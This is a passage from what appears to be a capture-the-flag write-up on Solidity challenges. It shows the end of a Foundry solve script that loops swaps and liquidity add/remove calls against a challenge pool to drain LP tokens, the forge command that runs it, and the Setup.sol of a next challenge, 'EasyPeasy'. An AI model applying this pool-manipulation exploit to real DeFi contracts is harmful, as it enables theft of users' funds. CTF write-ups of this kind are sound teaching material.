 ```
        uint256 lpBal = pool.balanceOf(user);
        for(uint8 i; i<2; i++){
            uint256 wethBal = wethToken.balanceOf(user);
            pool.swap(address(wethToken), wethBal);
            uint256 pufethBal = pufethToken.balanceOf(user);
            pool.addLiquidity(0 ether, pufethBal);
            lpBal = pool.balanceOf(user);
            pool.removeLiquidity(lpBal);
        }
        uint256 pufethBal = pufethToken.balanceOf(user);
        uint256 wethBal = wethToken.balanceOf(user);
        pool.addLiquidity(wethBal,pufethBal);
        lpBal = pool.balanceOf(user);
        
        console.log("User DummyWETH balance :", wethToken.balanceOf(user));
        console.log("User DummyPUFETH balance :", pufethToken.balanceOf(user));

        console.log("User DummyWETH balance :", wethToken.balanceOf(user));
        console.log("User DummyPUFETH balance :", pufethToken.balanceOf(user));
        console.log("User LiquidityToken balance :", pool.balanceOf(user));
        console.log("Setup LiquidityToken balance :", pool.balanceOf(address(set)));


        console.log("isSolved() :", set.isSolved(user));
        vm.stopBroadcast();
    }
}
```

{% end %}

# Runing attack script
forge script script/Solve.s.sol:SolveScript --rpc-url <RPC_URL> --broadcast

# EasyPeasy

{% note(clickable=true, header="Setup.sol") %}

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "./challenge.sol";

contract Setup {
    Challenge public challenge;
    constructor() payable{
        challenge = new Challenge();
    }
    function isSolved() external view returns (bool) {
        return challenge.solved();
    }
}
```
